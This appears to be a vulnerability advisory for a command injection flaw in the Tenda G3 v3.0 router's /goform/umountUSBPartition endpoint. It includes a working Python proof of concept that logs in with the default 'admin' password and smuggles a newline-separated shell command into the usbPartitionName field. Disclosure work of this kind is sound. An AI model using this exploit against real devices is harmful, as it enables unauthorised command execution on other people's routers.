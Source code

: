 **First of all, you can see more detailed demonstration effects in exp.mkv**

## Affected Version
* <=Tenda-G3v3.0 V15.11.0.20

## Vulnerability Description
Tenda-G3v3.0 V15.11.0.20  was discovered to contain command injection  at url **/goform/umountUSBPartition**

## Vulnerability Details
In the function **formSetUSBPartitionUmount**, there is a doSystemCmd("/usr/sbin/usb umount %s", (const char *)usbPartitionName); instruction, the value of usbPartitionName comes from the user's post request.

![alt text](image.png)

The prod_system_param_valid function is in **libcommonprod.so**, and **its filtering is not complete because command injection can still be achieved through the escape character '\n'**

![alt text](image-1.png)

For example,**in the test.c function, '\n' is used for command injection**
![alt text](image-2.png)

**We can see that echo PWN!!! is successfully executed, so the same vulnerability exists in formSetUSBPartitionUmount.**

![alt text](image-3.png)

## exp
It should be noted that you need to login before accessing /goform/umountUSBPartition, so you need to login before posting the request.

```python
import requests

session = requests.Session()

login_url = "http://192.168.0.252/login/Auth"
headers = {
    "Host": "192.168.0.252",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.0.252",
    "Connection": "close",
    "Referer": "http://192.168.0.252/login.asp",
    "Cookie": "G3v3_user=",
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i"
}

login_data = {
    "password": "YWRtaW4="  #base64 encoded 'admin'
}

response = session.post(login_url, headers=headers, data=login_data)

url = "http://192.168.0.252/goform/umountUSBPartition"
data = {"usbPartitionName": "\necho PWN!!! > /webroot/1.html\n"}
response = session.post(url, data=data)

print(response.text)
```

## Any suggested solutions to fix
**The filter list of the function prod_system_param_valid in libcommonprod.so should also be added '\n'**
